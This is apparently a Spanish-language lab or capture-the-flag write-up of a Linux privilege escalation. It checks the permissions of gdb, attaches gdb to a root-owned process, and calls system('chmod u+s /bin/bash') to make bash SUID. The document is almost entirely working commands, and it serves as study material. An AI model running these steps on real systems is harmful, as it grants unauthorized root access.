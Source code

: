 # ENUMERACIÓN
### VERIFICAR PERMISOS DEL BINARIO
```shell
developer@faculty:/$ ls -l /usr/bin/gdb
```

### VER PROPIETARIO DEL PROCESO
```shell
developer@faculty:/$ ps -faux | grep "root"
```


# EXPLOTACIÓN
### ACCEDER AL RECURSO
```shell
developer@faculty:/$ gdb -p 692
(gdb)
```

### CAMBIAR PERMISOS DE LA BASH
```shell
(gdb) call (void)system("chmod u+s /bin/bash")
[Detaching after vfork from child process 2176]
```